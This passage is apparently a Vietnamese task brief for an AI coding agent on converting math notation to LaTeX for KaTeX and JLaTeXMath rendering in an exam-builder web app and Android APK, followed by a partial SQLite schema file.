**kể cả khi nằm ngoài `$...$`**. Sau bước này chuỗi lưu trong máy chỉ còn `√80` / `√5` — cấu trúc
căn đã mất, không còn LaTeX cho engine nào vẽ.

### 1.4 Nguyên tắc kiến trúc cần chốt
- **Dạng chuẩn duy nhất mà renderer nhìn thấy = LaTeX trong `$...$`.**
- App chịu trách nhiệm quy MỌI cửa vào về dạng đó.
- Ký hiệu **một hàng** đã đẹp sẵn (`x²`, `≤`, `≥`, `×`, `±`, `π`, `°`, `α`) **giữ nguyên Unicode
  trong text thường** — KHÔNG nhồi vào engine (nhẹ, chọn/copy được, không lệch baseline, APK không
  sinh drawable thừa trong `LazyColumn`).
- Bộ chuẩn hoá chỉ "kích hoạt" engine khi đoạn văn có **ít nhất một cấu trúc 2 chiều**.
- Word/PDF export vẫn cần bản làm phẳng (`latexToPlainText` / `MathConvert.toPlainText`) — dạng
  chuẩn LaTeX không thay thế chỗ này (nhưng APK có thể rasterise công thức thành ảnh trong file).

---

## 2. HIỆN TRẠNG CODE (đã có sẵn — KHÔNG làm lại từ đầu, chỉ hoàn thiện + port)

### 2.1 Web — Hướng 1 đã dựng khung, còn dở
- `backend/parser/mathToLatex.js` **đã tồn tại**: hàm `promoteStructuralMath(text)` — bọc mọi cấu
  trúc 2 chiều ngoài `$...$` thành `$...$` LaTeX, idempotent, coi `$...$` / `$$...$$` có sẵn là khối
  kín. Có các bước: `wrapLatexCommands` (\sqrt \frac \dfrac \tfrac đã là LaTeX hợp lệ → chỉ thêm
  `$`), `wrapSqrtCalls` (`sqrt(...)` ASCII), `wrapUnicodeRadicals` (`√` `∛` `∜` `ⁿ√`),
  `absorbLeadingCoefficient`, `absorbHuggingParens`, `mergeFractions`, `mergeAdjacentSpans`; body
  builder `bareToLatex`.
- `backend/parser/mathFormat.js`: `formatMathSymbols()` **đã gọi** `promoteStructuralMath()` ở bước
  1, rồi mới làm đẹp ký hiệu một hàng ở bước 2 (chỉ vùng ngoài `$...$`). `latexToPlainText()` giữ
  nguyên vai trò làm phẳng toàn bộ (cho Word export).
- `backend/parser/mathFraction.js`: `isLikelyFraction(num, den)` — heuristic chặn từ nối tiếng Việt
  (`va`, `hoac`…), đơn vị đo (`km/h`, `m/s`…), từ xuôi dài. **Đã export để `mathToLatex.js` dùng lại.**
- `backend/parser/mathRadical.js`: `findMatchingParen()` (export), `segmentRadicals()` (cho renderer
  CSS fallback).
- Cửa đã gắn `formatMathSymbols`: `backend/parser/TextPromptParser.js` (AI/prompt),
  `backend/parser/FileUploadParser.js` (upload), `frontend/script.js` (lưu form + lưu
  contentEditable ở Xem trước).
- `frontend/script.js`: `renderMathInline()` (dòng ~19–32) tách `$...$` → `renderKatexSpan()` (KaTeX,
  `throwOnError:false`, fallback về `$latex$` text khi lỗi); phần ngoài `$...$` vẫn đi
  `renderRadicalSegments()` → `renderFractionSegments()` (căn/phân số CSS trong `frontend/style.css`
  `.radical` ~889–928, `.frac` ~863–880).
- **Test đang đỏ** (`npm test`): `tests/parser/mathToLatex.test.js` (2 ca: `TC-ML-11`, `TC-ML-12` —
  **bug thật** trong `absorbHuggingParens`/`absorbLeadingCoefficient` và `mergeAdjacentSpans`);
  `tests/parser/mathFormat.test.js` (~12 ca — phần lớn assert **hành vi làm phẳng cũ** đã lỗi thời,
  cần viết lại theo hành vi mới "bọc `$...$`"; đọc từng ca, phân biệt "assert lỗi thời → sửa test"
  với "regression thật → sửa code").

### 2.2 Web — Hướng 2 (prompt) mới sửa một nửa
- `Gemini_Prompt_Unified.txt` mục "CÁCH VIẾT CÔNG THỨC TOÁN" (dòng ~89–92): hiện **vẫn** cho phép
  `căn sqrt(16)` và `phân số 3/4` ở dạng ASCII — **mâu thuẫn** với mục tiêu (căn/phân số phải vào
  `$...$`).
- `frontend/promptTemplate.js` là **file sinh tự động** từ `Gemini_Prompt_Unified.txt` bằng
  `npm run gen:prompt` (`tools/gen-prompt-module.js`). **KHÔNG hand-edit `promptTemplate.js`.**

### 2.3 Web — Hướng 3 (chốt chặn) gần xong
- `formatMathSymbols` đã "bọc thay vì làm phẳng" cho `\sqrt` / `\frac` / `sqrt(...)` / `√`.
- **Còn thiếu**: `\begin{env}...\end{env}` (cases, matrix, aligned…) nằm ngoài `$...$` — hiện
  `promoteStructuralMath` **không** bọc; và cần chắc chắn `latexToPlainText`/bảng `SYMBOL_REPLACEMENTS`
  không bao giờ được chạy trên `\sqrt`/`\frac`/`\begin` ngoài `$...$` **trước khi** `promoteStructuralMath`
  kịp bọc chúng (thứ tự trong `formatMathSymbols` đã đúng — nhưng thêm test khoá chặt).

### 2.4 APK — CHƯA làm gì cho Hướng 1
- `Exam builder for adr/app/src/main/java/com/exambuilder/android/math/`:
  - `MathConvert.kt` — **port của `mathFormat.js` cũ**: `toPlainText()` (làm phẳng toàn bộ),
    `normalizeInput()` (làm phẳng ASCII ngoài `$...$`, giữ `$...$` nguyên), `segments()` (làm phẳng
    rồi tách run `^{}`/`_{}` thành super/subscript). **CHƯA có `promoteStructuralMath`.**
  - `MathParser.kt` — `parseMathNodes(raw)` chỉ tách `$$...$$`, `$...$`, và bare `\begin{env}` (env
    trong danh sách). `MathNode.Text` / `MathNode.Formula(latex, block)`. `groupMathNodes()`.
  - `MathText.kt` — Composable. **Fast path** (dòng 64–78): nếu `parseMathNodes` không thấy
    `Formula` nào → vẽ `Text` Unicode thuần qua `buildMathAnnotatedString` (→ `MathConvert.segments`).
    Có `Formula` → `InlineMathText` (nhúng drawable JLaTeXMath vào dòng chữ qua `InlineTextContent`,
    fallback về `buildMathAnnotatedString(node.latex)` khi `LatexImage.drawable` trả null) /
    `BlockFormula` (dòng riêng, cuộn ngang).
  - `LatexImage.kt` — `drawable()` / `bitmap()` bọc `JLatexMathDrawable`, `runCatching` → null khi
    parse lỗi.
- Cửa nhập tay APK: `ui/screens/QuestionEditorSheet.kt` `buildQuestion()` (dòng ~273) — **đã gọi**
  `MathConvert.normalizeInput(...)` trên content/explanation/option/fill answer.
- Export APK: `export/PdfExporter.kt` (~233), `export/DocxExporter.kt` (~160) — `parseMathNodes` rồi
  `MathConvert.toPlainText` cho text node + rasterise `Formula` qua `LatexImage`.
- Không có `app/src/test/` — **theo ghi chú dự án, JVM unit test của module Android không chạy được
  cục bộ** (đường dẫn có dấu cách + dấu tiếng Việt). Vẫn VIẾT test nhưng chấp nhận không chạy local;
  bù lại phải build APK thành công.

---

## 3. VIỆC CẦN LÀM

### TASK A — Hướng 2: siết prompt AI

Trong `Gemini_Prompt_Unified.txt`, mục "CÁCH VIẾT CÔNG THỨC TOÁN":

1. Sửa quy tắc thành:
   - **Bắt buộc `$...$` LaTeX** cho: mọi căn (`$\sqrt{80}$`, `$\sqrt[3]{x+1}$`), mọi phân số
     (`$\dfrac{2}{3}$`), luỹ thừa có cơ số/biểu thức phức (`$x^{n+1}$`, `$(a+b)^2$`), tích phân/tổng
     có cận, hệ phương trình, ma trận, giới hạn.
   - **ASCII trần chỉ cho thứ thật sự MỘT HÀNG**: `x^2` (mũ số đơn), `a*b`, `<=` `>=` `!=` `<=>`
     `=>`, đơn vị `cm2` `cm3`, số thập phân, dấu `±` viết `+-`.
   - Giữ nguyên câu "không trộn nửa ASCII nửa LaTeX trong một biểu thức".
   - Thêm 1 câu: "Nếu một biểu thức có căn hoặc phân số thì **cả biểu thức** đó phải nằm trong
     `$...$` (kể cả phần số/biến ngoài căn), ví dụ viết `$2\sqrt{3}+1$` chứ không phải `2$\sqrt{3}$+1`."
2. Rà mục "KHUNG MẪU" và các ví dụ `De_Bai` / `Loi_Giai` (dòng ~159–165 và toàn bộ ví dụ khác):
   mọi căn/phân số trong ví dụ phải ở dạng `$...$`.
3. Chạy `npm run gen:prompt` để sinh lại `frontend/promptTemplate.js`. Commit cả hai file.
   **Không sửa tay `promptTemplate.js`.**

### TASK B — Hướng 1 (web): hoàn thiện bộ chuẩn hoá

1. **Sửa 2 bug thật** trong `backend/parser/mathToLatex.js` để `tests/parser/mathToLatex.test.js`
   xanh hết:
   - `TC-ML-11` (hệ số + ngoặc ôm sát cụm căn → nuốt vào `$...$`).
   - `TC-ML-12` (gộp các cụm `$...$` kề nhau qua toán tử thành 1 công thức).
   Đọc kỹ ca test để biết output kỳ vọng; sửa `absorbLeadingCoefficient` / `absorbHuggingParens` /
   `mergeAdjacentSpans` cho khớp, không phá ca đang xanh.
2. **Thêm bọc `\begin{env}...\end{env}`** (env toán đã biết: cases, matrix, pmatrix, bmatrix,
   vmatrix, aligned, align, array, gathered…) nằm ngoài `$...$` → bọc thành `$$...$$` (block) trong
   `promoteStructuralMath` (thêm bước, chạy trước hoặc trong `onePass`, tôn trọng vùng `$...$` kín).
3. **Viết lại các ca lỗi thời** trong `tests/parser/mathFormat.test.js` theo hành vi mới: căn/phân
   số/`sqrt(...)`/`√` ngoài `$...$` → kỳ vọng `$\sqrt{...}$` / `$\dfrac{...}{...}$`; ký hiệu một
   hàng vẫn kỳ vọng Unicode (`x^2`→`x²`, `<=`→`≤`, `a*b`→`a × b`). Giữ tên ca (`TC-MF-…`), ghi chú
   `[Da sua - chuyen sang $...$ LaTeX]` như các ca đã sửa trước đó.
4. **Idempotency**: đảm bảo `formatMathSymbols(formatMathSymbols(x)) === formatMathSymbols(x)` cho
   mọi input trong test (có ca `TC-MF-10`). `promoteStructuralMath` phải idempotent tuyệt đối.
5. **Bảo toàn tiếng Việt**: bộ chuẩn hoá KHÔNG được kéo chữ tiếng Việt (kể cả có dấu) vào `$...$`.
   Thêm ca test: `"phương án B"`, `"km/h"`, `"và/hoặc"`, `"Câu 12/5 SGK"` → giữ nguyên, không thành
   phân số.
6. `renderMathInline` (`frontend/script.js`): giữ `renderRadicalSegments` làm **fallback** cho lúc
   giáo viên đang gõ (chưa lưu, chưa qua `formatMathSymbols`). Không cần gỡ CSS `.radical`/`.frac`
   ngay, nhưng thêm comment `// fallback - moi noi dung da luu deu di qua KaTeX`.
   *(Tuỳ chọn, nếu gọn:* cho `renderMathInline` chạy `promoteStructuralMath` trên đoạn ngoài `$...$`
   trước khi quyết định KaTeX hay CSS — để nội dung chưa lưu cũng vẽ đẹp.)*

### TASK C — Hướng 3 (web): chốt chặn dữ liệu hỏng

1. Trong `formatMathSymbols`, thứ tự **phải** là: `promoteStructuralMath` (bọc) → rồi mới
   `applyReplacements` **chỉ trên vùng ngoài `$...$`**. Không đổi.
2. Thêm test khoá: `formatMathSymbols('Cho \\sqrt{80} va \\frac{1}{2} ngoai dola')` →
   `\sqrt{80}` và `\frac{1}{2}` phải nằm trong `$...$` ở output, **không** bị làm phẳng thành `√80`,
   `1/2`.
3. Thêm test: `\begin{cases}...\end{cases}` trần → `$$\begin{cases}...\end{cases}$$`.

### TASK D — APK: port bộ chuẩn hoá + đấu dây (phần "sửa cả bản apk")

1. **Port `promoteStructuralMath` sang Kotlin**, đặt trong
   `Exam builder for adr/app/src/main/java/com/exambuilder/android/math/MathConvert.kt` (thêm
   `fun promoteStructuralMath(text: String?): String` vào `object MathConvert`) **hoặc** file mới
   `MathPromote.kt` cùng package. Yêu cầu:
   - **Port trung thành từng bước** từ `backend/parser/mathToLatex.js` — cùng tên bước, cùng thứ
     tự, cùng số vòng lặp fixed-point. Ghi comment `// Port cua backend/parser/mathToLatex.js - giu
     dong bo`.
   - Port kèm heuristic `isLikelyFraction` từ `backend/parser/mathFraction.js` (blocklist từ nối,
     `UNIT_TOKENS`, `isLikelyProseWord`, `stripDiacritics` bằng `Normalizer.normalize(..., NFD)` +
     xoá `\p{M}`) — đặt cạnh nhau hoặc trong `MathConvert`.
   - Port `findMatchingParen` / `matchBrace`.
   - **Thuần JVM, không import Android/Compose** (để về sau có thể unit-test).
   - Idempotent.
2. **Đấu dây vào `parseMathNodes`** (`MathParser.kt`): chạy `MathConvert.promoteStructuralMath(raw)`
   **đầu tiên**, rồi mới tách `$$` / `$` / `\begin`. Cách gọn nhất:
   ```kotlin
   fun parseMathNodes(raw: String?): List<MathNode> {
       val promoted = MathConvert.promoteStructuralMath(raw) ?: return emptyList()
       // ... phần còn lại giữ nguyên, chạy trên `promoted`
   }
   ```
   Sau bước này, `MathText` fast-path tự động nhường sang đường JLaTeXMath khi có cấu trúc 2 chiều —
   **không cần sửa `MathText.kt`** (kiểm tra lại: `nodes.none { it is MathNode.Formula }` vẫn đúng).
3. **Đấu dây vào cửa nhập tay** — `MathConvert.normalizeInput`: thêm `promoteStructuralMath` làm
   bước 1 (mirror `formatMathSymbols` web):
   ```kotlin
   fun normalizeInput(text: String?): String {
       if (text.isNullOrEmpty()) return ""
       val promoted = promoteStructuralMath(text)
       // ... phần cũ (làm đẹp ASCII ngoài $...$) chạy trên `promoted`
   }
   ```
   `QuestionEditorSheet.kt` đã gọi `normalizeInput` nên không phải sửa thêm.
4. **`MathConvert.segments` / `toPlainText` giữ nguyên** — chỉ còn là fallback (khi
   `LatexImage.drawable` null) + ký hiệu một hàng trong `MathNode.Text`. Không gỡ.
5. **Export PDF/DOCX**: sau khi `parseMathNodes` promote, nhiều đoạn thành `MathNode.Formula` →
   `PdfExporter`/`DocxExporter` rasterise qua `LatexImage.bitmap` (vinculum thật trong file). Kiểm
   tra: `MathConvert.toPlainText` vẫn dùng cho đáp án `FILL_BLANK` và fallback text. Không đổi logic,
   chỉ chạy thử build + xuất 1 đề mẫu có căn/phân số.
6. **Hiệu năng `LazyColumn`**: bộ chuẩn hoá chỉ tạo `Formula` khi có cấu trúc 2 chiều thật; `x²`,
   `≤`, `π`… vẫn là Unicode trong `Text`. Giữ `remember(text)` quanh `parseMathNodes` và
   `remember(...)` quanh `LatexImage.drawable` (đã có). Nếu 1 câu ra > ~6 drawable inline, cân nhắc
   gộp cả câu thành 1 `$...$` — nhưng chỉ khi đo thấy giật.

### TASK E — Dữ liệu đề cũ (đã lưu / đồng bộ Gist)

Đề cũ đã bị `formatMathSymbols` (bản cũ) làm phẳng → `√80`, `1/2`. Bộ chuẩn hoá mới **cứu được đa
số** (`√` + số nguyên, `√(...)` có ngoặc, phân số gọn). Không cứu 100% (`\sqrt{80}/5` và
`\sqrt{80/5}` nếu cùng phẳng thành `√80/5` thì không phân biệt được).

1. **Web**: khi nạp một đề vào editor (`state`), chạy `formatMathSymbols` một lượt trên tất cả
   field (content / explanation / option_text / correct_answer) trước khi render. Lần auto-save kế
   tiếp sẽ ghi đè bản đã nâng cấp. Tìm chỗ nạp đề (load exam vào `state` trong `frontend/script.js`,
   và/hoặc `backend/routes/examRoutes.js` khi trả đề) và thêm bước này. `formatMathSymbols` idempotent
   nên chạy trên đề mới cũng vô hại.
2. **APK**: khi đề sync về từ Gist / nạp từ store local, chạy `MathConvert.promoteStructuralMath`
   một lượt trên các field trước khi hiển thị/lưu. Tìm chỗ import trong `sync/` và `data/`.
3. Không viết script migrate DB một lần (rủi ro, và Gist là nguồn thật) — chuẩn hoá **khi nạp** là
   đủ và an toàn.

---

## 4. QUY TẮC CỨNG CHO BỘ CHUẨN HOÁ (áp dụng cả JS lẫn Kotlin — phải khớp nhau)

Đây là các điểm mập mờ; chốt luật cứng để JS và Kotlin cho **cùng** kết quả:

1. **Toán hạng của `√` / `∛` không có ngoặc** = chỉ token số hoặc 1 chữ cái liền ngay sau.
   `√80` → `\sqrt{80}`. `√80/5` → `\sqrt{80}/5` → (bước phân số) → `\frac{\sqrt{80}}{5}` **chỉ khi**
   `isLikelyFraction` cho phép. `√x+1` → `\sqrt{x}+1` (KHÔNG `\sqrt{x+1}`).
2. **`sqrt(...)` / `√(...)` có ngoặc** = lấy trọn trong ngoặc cân bằng (kể cả lồng nhau).
3. **`a/b` → phân số** chỉ khi **cả hai vế "gọn"** (token số/biến/`$...$`/`(...)` ngắn, không
   khoảng trắng — hoặc có khoảng trắng nhưng ít nhất một vế bắt đầu bằng `$` hoặc `(`) **và**
   `isLikelyFraction(num, den)` = true (không phải từ nối tiếng Việt, không phải cặp đơn vị đo,
   không phải từ xuôi dài, không phải chữ thường ≥ 3 ký tự).
4. **Mập mờ thì để một hàng** (an toàn hơn là đoán sai). `2/√3` khi `√3` chưa được bọc → xử lý ở
   vòng fixed-point sau khi `√3` thành `$\sqrt{3}$`, rồi `2 / $\sqrt{3}$` → `$\frac{2}{\sqrt{3}}$`.
5. **`$...$` / `$$...$$` có sẵn = khối kín**, không đụng nội dung bên trong.
6. **Không kéo chữ (kể cả chữ tiếng Việt có dấu) vào `$...$`.** Ranh giới `mergeFractions` phải có
   lookbehind/lookahead loại `\p{L}\p{M}`.
7. **Ký hiệu một hàng** (`^` mũ đơn, `<=`, `>=`, `!=`, `*`, `+-`, đơn vị, chữ Hy Lạp `\alpha`,
   `\circ`) — bộ chuẩn hoá **không** đụng; để `applyReplacements` / `MathConvert.RULES` xử lý sau,
   chỉ ở vùng ngoài `$...$`.
8. **`$` lẻ (không thành cặp)**: không được làm hỏng phần sau. Cân nhắc: trong `promoteStructuralMath`,
   nếu tổng số `$` lẻ thì bỏ qua bước merge nhạy cảm, hoặc escape. Thêm test cho input có `$` lẻ.

---

## 5. KIỂM THỬ & BUILD

### Web
- `npm test` **xanh toàn bộ** (Jest). Trọng tâm: `tests/parser/mathToLatex.test.js`,
  `tests/parser/mathFormat.test.js`, `tests/parser/mathFraction.test.js`,
  `tests/parser/mathRadical.test.js`, `tests/parser/TextPromptParser.test.js`.
- Thêm **bảng test vector dùng chung** (`tests/parser/mathPromoteVectors.js` hoặc trong
  `mathToLatex.test.js`): danh sách `{ input, expected }` — đây là "hợp đồng" mà bản Kotlin phải
  khớp. Ít nhất 20 vector phủ: căn số nguyên trần, `sqrt()` ASCII, `√(...)` Unicode, căn bậc 3/n,
  `\sqrt`/`\frac` LaTeX trần, phân số gộp qua `/`, hệ số dẫn trước, ngoặc ôm, `\begin{cases}`,
  tiếng Việt không bị đụng, `$` lẻ, idempotency.
- Chạy thử app (`npm start`): tạo/nạp 1 đề có `\sqrt{80}`, `sqrt(80)`, `√80`, `\frac{a}{b}` trần và
  trong `$...$` → tất cả vẽ căn/phân số có **gạch ngang liền nét** bằng KaTeX; tiếng Việt quanh đó
  không lỗi.

### APK (thư mục `Exam builder for adr/`)
- Module `math` **compile sạch** (thuần JVM, không import Android trong phần port).
- Viết `app/src/test/java/com/exambuilder/android/math/MathPromoteTest.kt` dùng **cùng bảng test
  vector** với web (port sang Kotlin). Chạy được thì tốt; nếu môi trường không chạy được JVM test
  (đường dẫn có dấu cách/tiếng Việt — đã biết), ghi rõ trong báo cáo là "đã viết, chưa chạy local".
- **Build APK release ký** theo quy trình dự án (JDK 24, `keystore.properties` + `.jks` đã
  gitignore, R8 + keep rule kotlinx.serialization). Xác nhận `exam_builder.apk` build xong.
- Nếu chạy được emulator/thiết bị: mở 1 đề có căn/phân số trần → xác nhận JLaTeXMath vẽ vinculum,
  cuộn `LazyColumn` 30–40 câu không giật; xuất PDF/DOCX → công thức là ảnh nét.

---

## 6. TIÊU CHÍ NGHIỆM THU

1. Câu trong ảnh lỗi gốc (`\sqrt{80}`, `\sqrt{5}` / `sqrt(80)` ngoài `$...$`) hiển thị căn có gạch
   ngang liền nét trên **cả web lẫn APK**, phủ đúng bề rộng toán hạng.
2. Cả 4 cửa vào (AI / nhập tay / sửa Xem trước / upload file) + đề cũ nạp lại → đều ra `$...$` LaTeX
   trong dữ liệu lưu.
3. `mathToLatex.js` (JS) và `promoteStructuralMath` (Kotlin) cho **cùng output** trên bảng test
   vector chung.
4. Không có chữ tiếng Việt nào bị bọc vào `$...$`. `km/h`, `và/hoặc`, `Câu 12/5` giữ nguyên.
5. `npm test` xanh. APK build release thành công.
6. Ký hiệu một hàng (`x²`, `≤`, `π`, `°`) vẫn là text Unicode, không thành ảnh/drawable.
7. Word/PDF export (web + APK) không vỡ: web dùng `latexToPlainText` làm phẳng, APK rasterise ảnh.

---

## 7. GIỚI HẠN ĐÃ BIẾT / NGOÀI PHẠM VI

- Đề cũ đã mất thông tin do làm phẳng cũ: cứu được đa số, phần còn lại (`\sqrt{80}/5` vs
  `\sqrt{80/5}` cùng phẳng thành `√80/5`) phải sinh lại đề hoặc sửa tay — **chấp nhận**, ghi vào
  báo cáo.
- Không gỡ hẳn CSS `.radical`/`.frac` và glyph Unicode `√` của Android trong lần này — giữ làm
  fallback khi engine parse lỗi. Có thể dọn dần ở PR sau.
- Word export (.docx) của web vẫn cần `latexToPlainText` — dạng chuẩn LaTeX không thay thế được vì
  text run trong .docx không có engine.
- Không dựng WebView/KaTeX trên Android (jank + memory) — giữ JLaTeXMath.

---

## 8. QUY TRÌNH LÀM VIỆC

- Tạo nhánh mới từ `main` (đừng commit thẳng `main`).
- Làm theo thứ tự: **A → C → B → D → E** (prompt & chốt chặn trước để không đẻ thêm dữ liệu hỏng;
  rồi hoàn thiện web; rồi port APK; rồi migration).
- Mỗi task: chạy `npm test` trước khi sang task sau.
- Commit tách theo task, message tiếng Việt rõ ràng, kết thúc bằng:
  ```
  Co-Authored-By: Claude Sonnet 5 <noreply@anthropic.com>
  ```
- Cuối cùng: báo cáo ngắn gọn từng task đã làm gì, test pass/fail, APK build được không, phần nào
  chưa chạy được local và vì sao.
- Nếu tạo Pull Request, phần mô tả kết thúc bằng:
  ```
  🤖 Generated with [Claude Code](https://claude.com/claude-code)
  ```


# BỐI CẢNH & YÊU CẦU DỰ ÁN: CHUẨN HOÁ RENDER CÔNG THỨC TOÁN (WEB & ANDROID APK)

## 1. Vấn đề hiện tại
Chúng tôi đã trace toàn bộ đường đi của công thức toán học trên cả Web và Android APK. Bản sửa trước đây chỉ render tốt công thức nằm trong cặp dấu `$…$`. Đối với các biểu thức nằm ngoài `$…$` (do AI sinh ra thiếu `$`, giáo viên gõ tay `sqrt(16)`, `3/4`, đề cũ đã lưu, hoặc file tải lên):
- **Phía Web:** Bị `formatMathSymbols()` làm phẳng regex (`\sqrt{80}` → `√80`, `\frac{a}{b}` → `a/b`), sau đó đẩy vào `renderRadicalSegments()` vẽ căn giả bằng CSS (`style.css:889-928`). Kết quả: nét móc bị nghiêng 22° như dấu `/`, gạch ngang rời rạc, các biểu thức như `√80/5` bị rơi ra ngoài căn.
- **Phía Android APK:** `parseMathNodes()` không thấy `$…$` nên chạy vào "fast path" text thuần (`MathText.kt:67`), chỉ đổi ký tự qua `MathConvert` thành glyph Unicode `√` (không có gạch ngang trên đầu). `JLaTeXMath` hoàn toàn không được kích hoạt.

## 2. Kiến trúc giải pháp đã chốt (Thực hiện đồng thời 3 phần)
Chúng tôi quyết định chọn phương án đưa **MỌI công thức có cấu trúc 2 chiều về một Engine chuẩn duy nhất** (KaTeX trên Web / JLaTeXMath trên APK):

1. **Bộ chuẩn hoá & nâng cấp (Ký hiệu → LaTeX):**
   - Xây dựng hàm nâng cấp ngược: Nhận diện Unicode bị làm phẳng (`√80`, `√(x+1)`, `∛27`), ASCII gõ tay (`sqrt(16)`, `3/4`), hoặc LaTeX trần không bọc `$…$` (`\sqrt{80}`, `\frac{a}{b}`) để chuyển thành LaTeX chuẩn (`\sqrt{80}`, `\frac{3}{4}`,...).
   - Tái sử dụng logic/heuristic nhận diện đã có từ `mathRadical.js` và `mathFraction.js:48` (`isLikelyFraction`) để phân biệt toán hạng với văn xuôi thông thường (tránh bắt nhầm "và/hoặc", "km/h", "ngày 12/5").
   - **Quy tắc phân loại:**
     + *Cấu trúc 2 chiều (căn, phân số xếp chồng, căn bậc n, luỹ thừa phức tạp):* Bắt buộc chuyển sang LaTeX để engine vẽ.
     + *Ký hiệu 1 hàng (x², ≤, ≥, ±, π, α, đơn vị):* Giữ nguyên text Unicode thuần để nhẹ bộ nhớ, copy được, không ép thành ảnh JLaTeXMath/KaTeX làm vỡ baseline và hao RAM (đặc biệt trong `LazyColumn` của Android).

2. **Cập nhật Renderer trên Web & Android APK:**
   - **Web:** Sửa `renderMathInline`. Với đoạn ngoài `$…$`, cho chạy qua bộ chuẩn hoá. Đoạn nào phát hiện cấu trúc 2 chiều thì gọi `renderKatexSpan()`. Giữ CSS `.radical` / `.frac` cũ làm fallback khi KaTeX lỗi.
   - **APK:** Sửa `MathText.kt` và `parseMathNodes`. Chạy bộ chuẩn hoá trên `MathNode.Text`, tách các cấu trúc 2 chiều thành `MathNode.Formula(block=false)` để `InlineMathText` vẽ qua `JLaTeXMath`.
   - **Chốt chặn parser:** Sửa `formatMathSymbols()` / `TextPromptParser`. Khi gặp `\sqrt`, `\frac`, `\begin{}` đứng trần ngoài `$…$`, phải tự động bọc `$…$` lại thay vì làm phẳng thành text thô.

3. **Tối ưu Prompt sinh đề AI:**
   - Cập nhật `Gemini_Prompt_Unified.txt:89-92` và quy trình `npm run gen:prompt`. Bắt buộc AI bọc `$…$` cho mọi cấu trúc 2 chiều, chỉ dùng ASCII cho ký hiệu 1 hàng đơn giản.

---

## 3. CHỈ THỊ DÀNH CHO CLAUDE PRO (QUAN TRỌNG)

> **DỪNG LẠI! CHƯA VIẾT CODE NGAY.**
> 
> Trước khi đưa ra giải pháp kỹ thuật chi tiết, kế hoạch refactor hoặc viết mã nguồn, bạn **PHẢI** đặt câu hỏi phỏng vấn tôi thật chi tiết về codebase, kiến trúc hiện tại, logic nghiệp vụ, và các trường hợp biên. 
> 
> Hãy **hỏi càng nhiều càng tốt**, đi sâu vào:
> 1. Cấu trúc thư mục, các file liên quan trên cả Web (`mathFormat.js`, `mathRadical.js`, `mathFraction.js`, v.v.) và Android (`MathText.kt`, `MathConvert.kt`, v.v.).
> 2. Các quy tắc phân tách AST / Node parsing hiện tại.
> 3. Cách lưu trữ, đồng bộ dữ liệu (Local state, Gist, Database, export Word/PDF).
> 4. Hiệu năng của Compose (`LazyColumn`, caching Bitmap của `JLaTeXMath`) và các edge cases bạn nghi ngờ.
> 
> Hãy liệt kê toàn bộ các câu hỏi phân loại theo từng nhóm rõ ràng để tôi trả lời trước!
````

### FILE: backend/database.js

```javascript
const path = require('path');
const sqlite3 = require('sqlite3');
const { open } = require('sqlite');

const DB_PATH = process.env.EXAM_DB_PATH || path.join(__dirname, 'exam.db');
let dbInstance = null;

const SCHEMA_SQL = `
PRAGMA foreign_keys = ON;

CREATE TABLE IF NOT EXISTS EXAM (
  exam_id           TEXT PRIMARY KEY,
  title             TEXT NOT NULL,
  subject           TEXT,
  duration_minutes  INTEGER,
  school_header     TEXT,
  created_at        TEXT DEFAULT (datetime('now'))
);

CREATE TABLE IF NOT EXISTS QUESTION_BLOCK (
  block_id    TEXT PRIMARY KEY,
  exam_id     TEXT NOT NULL REFERENCES EXAM(exam_id) ON DELETE CASCADE,
  block_type  TEXT NOT NULL CHECK (block_type IN ('MULTIPLE_CHOICE','ESSAY')),
  block_title TEXT,
  sort_order  INTEGER DEFAULT 0
);

CREATE TABLE IF NOT EXISTS QUESTION (
  question_id       TEXT PRIMARY KEY,
  block_id          TEXT NOT NULL REFERENCES QUESTION_BLOCK(block_id) ON DELETE CASCADE,
  question_type     TEXT NOT NULL CHECK (question_type IN ('MCQ','FILL_BLANK','TRUE_FALSE','ESSAY')),
  content           TEXT NOT NULL,
  difficulty_level  TEXT CHECK (difficulty_level IN ('NB','TH','VD','VDC')),
  correct_answer    TEXT,
  explanation       TEXT,
  draft_lines_count INTEGER DEFAULT 0,
  sort_order        INTEGER DEFAULT 0
);

CREATE TABLE IF NOT EXISTS QUESTION_OPTION (
  option_id    TEXT PRIMARY KEY,
  question_id  TEXT NOT NULL REFERENCES QUESTION(question_id) ON DELETE CASCADE,
  option_key   TEXT,
  option_text  TEXT,
  is_correct   INTEGER DEFAULT 0
);

CREATE TABLE IF NOT EXISTS EXAM_SHARE (
  share_code  TEXT PRIMARY KEY,
  exam_id     TEXT NOT NULL REFERENCES EXAM(exam_id) ON DELETE CASCADE,
  expires_at  TEXT,
  is_active   INTEGER DEFAULT 1
);

CREATE TABLE IF NOT EXISTS LLM_SETTINGS (
  provider    TEXT PRIMARY KEY CHECK (provider IN ('openai','anthropic','gemini')),
  api_key     TEXT NOT NULL,
  updated_at  TEXT DEFAULT (datetime('now'))
);

CREATE TABLE IF NOT EXISTS LLM_MODEL (
  model_id      TEXT PRIMARY KEY,
  display_name  TEXT NOT NULL,
  source_type   TEXT NOT NULL CHECK (source_type IN ('cloud','local_gguf')),
  provider      TEXT CHECK (provider IN ('openai','anthropic','gemini')),
  model_name    TEXT,
  file_path     TEXT,
  file_size     INTEGER,
  created_at    TEXT DEFAULT (datetime('now'))
);

CREATE TABLE IF NOT EXISTS RESOURCE_DOCUMENT (
  doc_id      TEXT PRIMARY KEY,
  title       TEXT NOT NULL,
  subject     TEXT,
  created_at  TEXT DEFAULT (datetime('now'))
);

CREATE TABLE IF NOT EXISTS RESOURCE_SECTION (
  section_id     TEXT PRIMARY KEY,
  doc_id         TEXT NOT NULL REFERENCES RESOURCE_DOCUMENT(doc_id) ON DELETE CASCADE,
  section_title  TEXT NOT NULL,
  content        TEXT NOT NULL,
  sort_order     INTEGER DEFAULT 0
);

-- Kho de (lich su luu tru): moi de la 1 dong, payload_json giu nguyen
-- { title, subject, duration_minutes, school_header, blocks } - dung 1:1
-- voi file exambuilder-library.json tren Gist de dong bo. Xoa de = dat
-- deleted_at (tombstone), giu dong lai de tombstone lan duoc qua Gist.
CREATE TABLE IF NOT EXISTS SAVED_EXAM (
  exam_id          TEXT PRIMARY KEY,
  title            TEXT,
  subject          TEXT,
  duration_minutes INTEGER,
  school_header    TEXT,
  payload_json     TEXT NOT NULL,
  created_at       TEXT DEFAULT (strftime('%Y-%m-%dT%H:%M:%SZ','now')),
  updated_at       TEXT DEFAULT (strftime('%Y-%m-%dT%H:%M:%SZ','now')),
  deleted_at       TEXT
);

-- Cau hinh dong bo Gist - 1 dong duy nhat (id = 1). Token luu plaintext,
